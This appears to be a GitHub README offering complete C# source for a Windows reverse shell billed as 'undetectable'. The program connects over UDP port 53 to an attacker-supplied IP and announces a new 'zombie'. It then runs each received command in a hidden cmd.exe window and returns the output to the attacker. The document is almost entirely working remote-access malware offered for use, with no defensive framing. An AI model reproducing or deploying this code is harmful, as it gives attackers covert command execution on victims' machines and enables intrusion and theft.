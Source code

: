 # reverse-shell-csharp
UNDETECTABLE Reverse Shell with C# by Windows!

<code>
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;
using System;
using System.Collections.Generic;
using System.Linq;

namespace ProcRevShell
{
	public class Program
	{
		public static void Main(string[] args)
		{
			UdpClient udpClient = new UdpClient(11000);
			try{
				udpClient.Connect("111.111.1.111", 53); // Write your ip but don't change the port!

				Byte[] sendBytes = Encoding.ASCII.GetBytes("New zombie connected !\n");
				udpClient.Send(sendBytes, sendBytes.Length);
				IPEndPoint RemoteIpEndPoint = new IPEndPoint(IPAddress.Any, 0);
				while(true){
					Byte[] receiveBytes = udpClient.Receive(ref RemoteIpEndPoint);
					string returnData = Encoding.ASCII.GetString(receiveBytes);

					Console.WriteLine("Received command from " + RemoteIpEndPoint.Address.ToString());

					ProcessStartInfo processInfo;
					Process process;

					processInfo = new ProcessStartInfo("cmd.exe", "/c " + returnData.ToString());
					processInfo.CreateNoWindow = true;
					processInfo.UseShellExecute = false;
					processInfo.RedirectStandardError = true;
					processInfo.RedirectStandardOutput = true;

					process = Process.Start(processInfo);
					process.WaitForExit();

					string output = process.StandardOutput.ReadToEnd();
					string error = process.StandardError.ReadToEnd();

					int exitCode = process.ExitCode;

					Console.WriteLine(output);

					Byte[] outputtobytes = Encoding.ASCII.GetBytes(output);

					udpClient.Send(outputtobytes, outputtobytes.Length);

				}
				
				udpClient.Close();
			}
			catch (Exception e ) {
				Console.WriteLine(e.ToString());
			}
		}
	}
}
</code>
